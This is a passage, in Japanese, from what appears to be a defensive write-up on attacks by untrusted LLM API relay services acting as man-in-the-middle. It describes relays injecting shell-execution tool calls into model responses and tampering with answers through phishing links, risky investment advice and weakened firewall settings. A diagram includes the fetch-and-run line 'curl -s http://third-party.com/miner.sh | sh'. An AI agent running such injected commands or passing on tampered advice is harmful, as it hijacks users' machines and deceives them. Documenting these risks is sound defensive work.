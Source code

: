 この操作の深刻性は、ローカルワークスペースだけでなくリモートバックアップまで破壊する可能性にある。他のバックアップ習慣を持たない開発者にとっては致命的である。

### 高度リスク対策

基本的な防御策に加えて、データジャックに対しては以下の対策が必要：

* **データバックアップの徹底**: 重要ファイルやコードリポジトリを定期的に複数地点、オフラインでバックアップする。あらゆるデータリスクへの最終防衛線である。
* **最小権限原則の適用**: クライアント（特にIDEプラグイン）を実行するユーザーはできるだけ低いシステム権限を持つこと。ハードディスク全体の暗号化や重要なシステムコマンド実行を防ぐ。

## より高度なリスクベクトル

単なる情報取得やデータジャックに加え、信頼できない中継サービスは中間者としてさらに高度で隠蔽性の高い攻撃を仕掛けてくる可能性がある。

### パターン3：リソースジャック (Resource Hijacking)

攻撃者の目的がユーザーのデータではなく、ユーザーの計算資源にある場合もある。これは長期的な寄生型リスクである。

1. **マイニング指令の注入**: ユーザーが通常リクエストを行った後、中継業者が返却応答に `execute_shell` 指令を注入。
2. **バックグラウンド実行**: 攻撃者サーバーから静かな暗号通貨マイニングプログラムをダウンロードし、`nohup` または類似技術を使用してバックグラウンドで静かに実行。
3. **長期潜伏**: ユーザーはPCの遅延やファンノイズ増加に気づくかもしれないが、バックグラウンドプロセスを直接発見するのは困難。攻撃者はユーザーのCPU/GPU資源を継続的に利益化できる。

```mermaid
sequenceDiagram
    participant User as ユーザー
    participant Client as クライアント
    participant MitMRouters as 不正中継サービス (MITM)
    participant LLM as 大規模モデルサービス
    participant ThirdParty as 攻撃者サーバー

    User->>Client: 任意の指令入力
    Client->>MitMRouters: APIリクエスト送信
    MitMRouters->>LLM: リクエスト転送
    LLM-->>MitMRouters: 正常応答返却
    
    MitMRouters->>MitMRouters: リソース消費指令注入
    MitMRouters->>Client: 改変応答返却
    Client->>Client: 想定外Tool Use実行: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: 攻撃者への継続的リソース提供
```

### パターン4：ソーシャルエンジニアリングとコンテンツ改変 (Social Engineering & Content Tampering)

これは特に警戒すべきリスクの一つであり、コード実行に依存せずモデル返却テキスト内容を操作し、ユーザーのAIへの信頼性を悪用する。

1. **リクエスト・応答の傍受と内容分析**: 中継サービスがユーザーのリクエストとモデルの応答を傍受し、内容を意味的に分析。
2. **テキスト改変**: 特定のシナリオが検出された場合、ターゲット指向のテキスト改変を行う。
    * **金融アドバイス**: 投資アドバイスを尋ねたユーザーに対し、リスクのある投資先を「推奨」分析する内容をモデル回答に追加。
    * **リンク置換**: 公式ソフトウェアダウンロードリンクを要求したユーザーに対し、URLをフィッシングサイトリンクに置換。
    * **セキュリティ推奨の弱体化**: ファイアウォール設定を相談したユーザーに対し、意図的に不安全なポート設定を提案し、後続操作の準備をする。
3. **ユーザーの採用**: ユーザーはAIの権威性と客観性を信用し、改変されたアドバイスを採用することで資金損失、アカウント盗難、システム侵入などを引き起こす可能性がある。

このリスクはサンドボックス、コンテナ、指令ホワイトリストなどのすべての技術的防御手段を回避し、直接人間の意思決定環節に影響を与える。

### パターン5：ソフトウェアサプライチェーンリスク (Software Supply Chain Risk)
